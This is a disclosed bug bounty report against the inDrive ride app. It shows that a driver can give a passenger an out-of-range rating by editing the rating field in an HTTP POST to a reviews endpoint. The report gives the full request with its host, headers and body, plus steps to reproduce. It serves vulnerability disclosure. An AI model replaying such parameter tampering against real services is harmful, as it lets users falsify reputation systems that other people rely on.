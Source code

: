 # Unlimited fake rate to the passenger in city to city, Affected endpoint `/api/v1/reviews/ride/<ID>/driver`

## Report Details
- **Report ID**: 2125049
- **URL**: https://hackerone.com/reports/2125049
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-08-27T01:22:07.483Z
- **Disclosed**: 2024-07-02T15:03:21.731Z

## Reporter
- **Username**: bugsv2
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: indrive

## Vulnerability Information
## Summary:

Hey Kirill, Hope you are doing well today Inshallah <3

I found a bug today allowing to increase the profile rate for the passenger !!

Let’s Start reproducing directly ..

## Steps to reproduce:

1. First of all, We gonna create a normal city to city shared ride, Then join it with any normal passenger’s account and complete it ..
2. At the end of the ride, After the passenger marks it as completed, The driver can rate the passenger !!
3. The request is like this:
    
    ```
    POST /api/v1/reviews/ride/███/driver HTTP/2
    Host: intercity-3.eu-east-1.indriverapp.com
    X-City-Id: 9415
    Accept-Language: en_US
    X-Os-Type: android
    X-App-Flavor: indriver
    X-App: android 5.41.1
    ██████
    Authorization: Bearer █████
    Traceparent: ██████
    Content-Type: application/json; charset=utf-8
    Content-Length: 32
    Accept-Encoding: gzip, deflate
    User-Agent: okhttp/4.10.0
    
    {"message":"Prince","rating":5}
    ```
    
4. Just change the `"rating":5` to any higher number, like: `"rating":55`
5. 200 OK !!
6. and The final profile for the passenger is:
    
    ████████
    
7. Thank You <3

## Impact

- Getting higher the driver’s profile rate in city to city, **Which is in an application like indriver This should not NEVERRRRR be happened !!**

## Attachments
No attachments

